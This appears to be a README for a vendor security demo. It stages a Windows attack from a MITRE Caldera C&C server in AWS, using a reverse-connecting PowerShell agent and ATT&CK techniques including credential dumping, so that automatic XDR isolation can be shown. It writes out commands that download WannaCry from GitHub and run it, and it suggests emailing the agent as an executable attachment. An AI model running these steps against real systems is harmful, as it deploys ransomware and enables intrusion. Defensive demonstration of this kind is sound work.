# Trend Micro Vision One Demo
---------------
__Requirements:

Windows/Mac/Linux OS
- AWS Account
- RDP/SSH Client
- Google Chrome or Mozilla Firefox


--------------------------------
__Prepaing the Demo Environment:

- Deploy the Cloud Formation Template (Make sure you are using the us-west-1 region). The following information has to be provided:

-Stack name - Name of the stack you are creating (example XDR-Demo)

-KeyName - KeyPar to be used when creating the EC2 Instances

-Platform - Select the appropriate platform (VisionOne, C1WS or ApexOne). Based on your selection, the following information has be provided

--PlatformURL - If you selected ApexOne or VisionOne, add the AgentInstallationURL (ApexOne Agent Installer or VisionOne Basecamp)

--TenantID and Token - If you selected C1WS, you have to get the TennantID and Token to be used installing and activating the agent. You can get this information using the C1WS > Deployment Scripts


-------------------------------
__Testing the demo environment:

After the CFT deployment is finished, you need to access the Windows Instance using RDP. You can get the credentials following the procedure described here https://docs.aws.amazon.com/AWSEC2/latest/WindowsGuide/connecting_to_windows_instance.html

After connecting to your RDP Session, make sure you can access the Caldera Management Console (http://linux-ip). username/password - admin/admin)

Also, you must make sure the Windows Instance is registered in your VisionOne/ApexOne/C1WS Management Console. Also, make sure the EDR feature is enabled (This will require a specific policy -for ApexOne or C1WS- or the EDR feature to be enabled manually, in case you are using VisionOne).

Using the VisionOne Portal, you must make sure that you have created a Secure Access Rule to automatically isolate devices with a (persistent) Risk Level of 60 or Higher (once matched).


--------------------------------
__What to expect from this demo:

This demo script was created to demonstrate the following use case:

+ Attacker trying to get the control of an Windows Instance

+ Attacker is using Mitre Caldera as C&C Server

++ Using Mitre Caldera, the Attacker will generate one malicious payload (powershell). This malicious payload will generate a reverse connection between the Windows Instance and the C&C Server.

++ The Attacker, using the Mitre Caldera, will use the tools available on Mitre Caldera to start checking some conditions and extracting sensitive data from the Windows Computer

++ The Trend Micro XDR agent is monitoring all the actions happening to the Windows Computer. The Risk Level of this device is increasing and it is becoming of of the riskiest devices of this demo environment.

++ The attacker will finish the attack encrypting the Windows Device, to make the impact of this attack even bigger.

++ Because of the policies in place, once the device' risk level reaches 60, the Windows Device will be automatically isolated.


--------------
__How to demo:

1- Open the RDP Session and show the basecamp components running on background;

2- Open the VisionOne Dashboard, and show the Actual Risk Level of this Windows Computer;

3- Open the Mitre Caldera Management Console, and create a new malicious payload

--Navigate > Agents > Click Here to Deploy an Agent > Select the "54ndc47" agent and Select the Windows Platform

--Replace the "app.contact.http" information with the Linux IP Address (example http://linux-ip)

--Copy the Powershell script created for this agent

4- Execute the powershell script on the Windows Instance

5- After you execute the PS script on the Windows Instance, you will find a new Client connected to the Mitre Caldera Portal (You can find it on Navigate > Agents menu)

6- Now selecte the Navigate > Operations menu. We will use this option to start the operation following that Demo Script described previously on this page.

7- Select the New Operation (name it as DemoXDR)

8- Select the option Manual Command > Select your Agent > Run the command "Hostname". You will notice that after 1 minute +- the status of this request will become green. That means the command was executed successfuly. You can check the output clicking on the "star" icon, in the right side of the command you executed.

9- Now select the option named "Potential Links". Using this option you can search through the Mitre Techniques, and test them as you believe will generate the best impact (based on the objectives you have for this demo).

10- The following Mitre Techniques can help you to increase the risk level of the Windows Machine quickly, so if you want, this could be the best path to follow and have the Automated Response actions triggered.

10.1- T1059.001, T1059.001, T1113, T1115, T1105, T1105, T1003.001, T1055.002, T1003.001, T1059.001, T1059.001, T1548.002, T1496, T1491

11- Check the VisionOne Portal, wait for the new logs (+-5 minutes) and look to the Risk Level of the Windows Instance. The number is increasing, right?

12- Check now the Observed Attack Techniques and the Workbenches. You will also find many detections! Its a good moment to show to your customer how to investigate and find what was detected or not by VisionOne.

13- After you showed all the information detected by VisionOne, it's time to drop the Ransomware file to the Windows Machine, and make sure the ransomware was executed successfuly.

13.1- To do that, select the Navigate > Operations. Create a new Operation named Ransomware.

13.2- Select the "Manual Command" Option, Select your target, then select the PS> interpreter.

13.3- Run the following commands "Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile wcry.exe"

14.4- After the first command was successfuly executed, run the next command "Start-Process wcry.exe"

15- If you check the Windows Instance a few seconds later, you will find the machine is encrypted. In a 5 minutes period of time, if the Secure Access Rules you've created is enabled, you should lost the RDP Access to your Windows Instance. That means the VisionOne was able to detect the changes on the Risk Level, and then followed with the automated isolation for any devices with risk level >=60.

16- You can check the detection logs and actions using the VisionOne Portal. You can go through the Device Risk Level, Workbenches, Observed Attack Techniques and Response Management menus, which will highlight all the detections and actions takes due to this new high risk computer detected during this demo.



-------
Optional (in case you want to demonstrate it in conjunction with CAS)

4- Access the following website https://ps2exe.azurewebsites.net/ and generate an executable file using the powershell script you've copied in the previous step

4.1- Send an email with the malicious attachment to the target user


